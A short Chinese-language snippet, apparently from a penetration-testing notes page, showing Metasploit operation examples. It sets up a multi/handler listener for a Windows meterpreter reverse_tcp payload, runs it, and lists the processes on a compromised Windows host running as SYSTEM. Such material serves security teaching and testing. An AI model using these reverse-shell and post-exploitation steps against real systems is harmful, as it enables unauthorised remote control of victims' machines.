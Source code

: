 以下为部分msf操作实例
```bash
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp 
msf exploit(handler) > exploit -l
meterpreter > ps
```

```bash
Process List 
============

PID PPID Name Arch Session User Path
--- ---- ---- ---- ------- ---- ----

0 0 [System Process]
4 0 System x86 0 NT AUTHORITY\SYSTEM
304 4 smss.exe x86 0 NT AUTHORITY\SYSTEM\SystemRoot\System32\smss.exe
352 304 csrss.exe x86 0 NT AUTHORITY\SYSTEM \?? \C:\WINDOWS\system32\csrss.exe
376 304 winlogon.exe x86 0 NT AUTHORITY\SYSTEM \?? \C:\WINDOWS\system32\winlogon.exe
424 376 services.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\system32\services.exe
436 376 lsass.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\system32\lsass.exe
620 424 vmacthlp.exe x86 0 NT AUTHORITY\SYSTEM C:\Program Files\VMware\VMware Tools\vmacthlp.exe
636 424 svchost.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\system32\svchost.exe
708 424 svchost.exe x86 0 NT AUTHORITY\NETWORK SERVICE C:\WINDOWS\system32\svchost.exe
768 424 svchost.exe x86 0 NT AUTHORITY\NETWORK SERVICE C:\WINDOWS\system32\svchost.exe
812 424 svchost.exe x86 0 NT AUTHORITY\LOCAL SERVICE C:\WINDOWS\system32\svchost.exe
828 424 svchost.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\System32\svchost.exe
1000 424 spoolsv.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\system32\spoolsv.exe
1028 424 msdtc.exe x86 0 NT AUTHORITY\NETWORK SERVICE C:\WINDOWS\system32\msdtc.exe
1160 424 svchost.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\System32\svchost.exe
1228 424 inetinfo.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\system32\inetsrv\inetinfo.exe
1252 424 sqlservr.exe x86 0 NT AUTHORITY\SYSTEM C:\PROGRA\~1\MICROS~1\MSSQL\binn\sqlservr.exe
1304 424 mysqld.exe x86 0 NT AUTHORITY\SYSTEM C:\Program Files\MySQL\MySQL Server 5.1\bin\mysqld.exe
1348 424 svchost.exe x86 0 NT AUTHORITY\LOCAL SERVICE C:\WINDOWS\system32\svchost.exe
1408 424 vmtoolsd.exe x86 0 NT AUTHORITY\SYSTEM C:\Program Files\VMware\VMware Tools\vmtoolsd.exe
1472 424 mssearch.exe x86 0 NT AUTHORITY\SYSTEM C:\Program Files\Common Files\System\MSSearch\Bin\mssearch.exe
1720 424 svchost.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\System32\svchost.exe
2128 2084 explorer.exe x86 0 xxxxxxxxxxxx\Administrator C:\WINDOWS\Explorer.EXE
2208 2128 vmtoolsd.exe x86 0 xxxxxxxxxxxx\Administrator C:\Program Files\VMware\VMware Tools\vmtoolsd.exe
2232 2128 ctfmon.exe x86 0 xxxxxxxxxxxx\Administrator C:\WINDOWS\system32\ctfmon.exe
2244 2128 sqlmangr.exe x86 0 xxxxxxxxxxxx\Administrator C:\Program Files\Microsoft SQL Server\80\Tools\Binn\sqlmangr.exe
2396 424 svchost.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\System32\svchost.exe
2440 424 dllhost.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\system32\dllhost.exe
3008 2128 cmd.exe x86 0 xxxxxxxxxxxx\Administrator C:\WINDOWS\system32\cmd.exe
3024 3008 conime.exe x86 0 xxxxxxxxxxxx\Administrator C:\WINDOWS\system32\conime.exe
3180 636 wmiprvse.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\system32\wbem\wmiprvse.exe
3248 828 wuauclt.exe xxxxxxxxxxxx\Administrator C:\WINDOWS\system32\wuauclt.exe
3380 376 logon.scr x86 0 xxxxxxxxxxxx\Administrator C:\WINDOWS\System32\logon.scr
```
